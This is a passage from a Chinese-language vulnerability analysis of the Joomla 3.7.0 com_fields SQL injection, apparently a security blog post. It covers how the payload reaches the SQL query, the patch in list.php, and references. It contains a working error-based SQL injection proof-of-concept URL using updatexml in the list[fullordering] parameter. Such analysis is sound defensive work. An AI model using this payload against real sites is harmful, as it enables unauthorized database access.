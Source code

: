 可以看一下到这里$query的内容，传入的poc代码已成功拼接进入sql语句

![sql](http://reverse-tcp.xyz/img/Joomla/com_fields_sql.png)

这里附一张该漏洞的审计思路图，看起来比较复杂，但是表哥们配合本文调试一遍应该就都可以理解该漏洞了。

![mind](http://reverse-tcp.xyz/img/Joomla/com_fields_mind.png)

### 漏洞验证

POC：

```http
http://127.0.0.1/Joomla_3.7.0/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x3a,concat(1,(select md5(1))),1)
```

### 漏洞修复

升级最新版完整安装包以及升级补丁包

[https://downloads.joomla.org/cms/joomla3/3-7-1](https://downloads.joomla.org/cms/joomla3/3-7-1)

在文件\Joomla_3.7.0\libraries\legacy\model\list.php中，处理fullordering的时候，当不满足条件时，添加else条件处理过程，使用系统默认的值进行查询

![solution](http://reverse-tcp.xyz/img/Joomla/com_fields_solution.png)

### 感谢

第一次进行PHP代码审计漏洞应急，感谢xfkxfk指导，文章大部分内容也来自[xfkxfk的分析文章](http://blog.nsfocus.net/joomlav3-7-core-components-log-sql-injection-vulnerabilities/)，这个Joomla注入漏洞在调试的时候也是很繁琐，但理清思路后还是挺佩服黑产哥的 :sweat_smile:

### 参考

[http://blog.nsfocus.net/joomlav3-7-core-components-log-sql-injection-vulnerabilities/](http://blog.nsfocus.net/joomlav3-7-core-components-log-sql-injection-vulnerabilities/)

[https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html](https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html)  

[http://bobao.360.cn/learning/detail/3868.html